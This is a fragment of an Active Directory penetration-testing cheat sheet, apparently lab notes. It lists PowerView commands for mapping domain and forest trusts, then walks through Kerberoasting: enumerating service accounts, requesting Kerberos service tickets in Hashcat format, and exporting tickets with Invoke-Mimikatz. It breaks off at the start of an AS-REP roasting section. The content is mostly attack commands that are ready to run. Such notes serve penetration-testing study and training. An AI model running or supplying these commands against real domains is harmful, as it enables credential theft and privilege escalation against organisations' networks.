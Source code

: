 ## Domain Trust Mapping

```powershell
# Get a list of all domain trusts for the current domain
Get-NetDomainTrust
Get-NetDomainTrust -Domain us.dollarcorp.moneycorp.local
```

## Forest Mapping

```powershell
# Get details about the current forest
Get-NetForest -Forest eurocorp.local

# Get all domains in the current forest
Get-NetForestDomain -Forest eurocorp.local

# Get all global catalogs for the current forest
Get-NetForestCatalog -Forest eurocorp.local

# Map trusts of a forest
Get-NetForestTrust -Forest eurocorp.local
```

# Kerberoasting

Find user accounts used as Service accounts:
```powershell
# PowerView
Get-NetUser -SPN
```

Request a TGS
```powershell
# Standard PowerShell
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/dcorp-mgmt.dollarcorp.moneycorp.local"
```

We can also do this PowerView
```powershell
Request-SPNTicket -SPN "MSSQLSvc/sqlsrv.blob.finance.corp" -Format Hashcat
```

Export all tickets using Mimikatz:
```powershell
Invoke-Mimikatz -Command '"kerberos::list /export"'
```

## AS-REP Roasting

If preauthentication is disabled, an attacker could request authentication data for any user and the DC would return an encrypted TGT.
